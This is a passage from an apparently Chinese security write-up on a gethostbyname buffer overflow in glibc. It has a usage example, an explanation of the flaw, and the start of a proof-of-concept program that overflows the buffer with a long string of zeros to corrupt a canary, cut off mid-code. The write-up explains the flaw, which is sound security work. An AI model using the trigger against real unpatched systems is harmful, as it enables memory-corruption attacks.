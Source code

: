 [![](https://p4.ssl.qhimg.com/t01e43fd54a92993b83.png)](https://p4.ssl.qhimg.com/t01e43fd54a92993b83.png)
- 用法
```
#include &lt;stdio.h&gt;
#include &lt;netdb.h&gt;
#include &lt;arpa/inet.h&gt;

int main(int argc, char** argv)`{`
    char* name = argv[1];
    struct hostent* host = gethostbyname(name);
    if(host==NULL)
        printf("error\n");
    else`{`
        printf("%s\n", host-&gt;h_name);
        for(int i=0; host-&gt;h_aliases[i]!=NULL; i++)
            printf("\t%s\n", host-&gt;h_aliases[i]);

        printf("IP type %d, IP addr len %d\n", host-&gt;h_addrtype, host-&gt;h_length);
        char buffer[INET_ADDRSTRLEN];
        for(int i=0; host-&gt;h_addr_list[i]!=NULL; i++)`{`
            char* ip = inet_ntop(host-&gt;h_addrtype, host-&gt;h_addr_list[i], buffer, sizeof(buffer));
            printf("\t%s\n", ip);
        `}`
    `}`
`}`
```

[https://blog.csdn.net/daiyudong2020/article/details/51946080](https://blog.csdn.net/daiyudong2020/article/details/51946080)
- 特殊点：`如果name输入的是IP地址，则不会去DNS查询，而是直接写入到hostent指向的内存区中，`这里因为没有进行合法性判断，所以输入奇怪的IP，比如检测代码中的一串0。它会被直接写入tmp.buffer，一同写入的还包括解析的主机信息。所以就很容易超过tmp.buffer的长度，造成溢出。
POC

```
#include &lt;netdb.h&gt;
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;string.h&gt;
#include &lt;errno.h&gt;
#define CANARY "in_the_coal_mine"
struct
`{`
   char buffer[1024];
   char canary[sizeof(CANARY)];
`}` temp = `{`"buffer", CANARY`}`;

int main(void)
`{`
   struct hostent resbuf;
   struct hostent *result;
   int herrno;
   int retval;
    
   /*** strlen (name) = size_needed - sizeof (*host_addr) - sizeof (*h_addr_ptrs) - 1; ***/
   size_t len = sizeof(temp.buffer) - 16 * sizeof(unsigned char) - 2 * sizeof(char *) - 1;
   char name[sizeof(temp.buffer)];
   memset(name, '0', len);
   name[len] = '\0';
   
    retval = gethostbyname_r(name, &amp;resbuf, temp.buffer, sizeof(temp.buffer), &amp;result, &amp;herrno);
   if (strcmp(temp.canary, CANARY) != 0)
   `{`
```